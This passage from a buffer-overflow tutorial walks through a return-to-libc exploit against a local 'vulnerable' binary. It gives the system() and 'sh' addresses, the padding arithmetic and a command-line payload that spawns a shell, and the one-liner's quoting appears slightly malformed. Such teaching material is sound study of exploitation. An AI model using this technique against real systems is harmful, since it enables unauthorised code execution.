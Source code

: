 0xb7ff7e5c is the address of 'sh'

##3b. Writing the exploit

All we need to do now is append these 2 addresses to the end of our string of A's in order to call essentially call `system('sh')` and spawn a shell

Here's what little math we need:

- Smashing EIP: 272 - 4 = 268 'A's needed
- Append system() -> "\x90\x61\xe5\xb7" * 2 since we need to fill the return address as well
- Append 'sh' -> "\x5c\x7e\xff\xb7"

On the command line:

`comp-name # ./vulnerable $(python -c 'A'*268 + "\x90\x61\xe5\xb7\x90\x61\xe5\xb7\x5c\x7e\xff\xb7"`

Verify that you spawned the shell

##4b. Exiting cleanly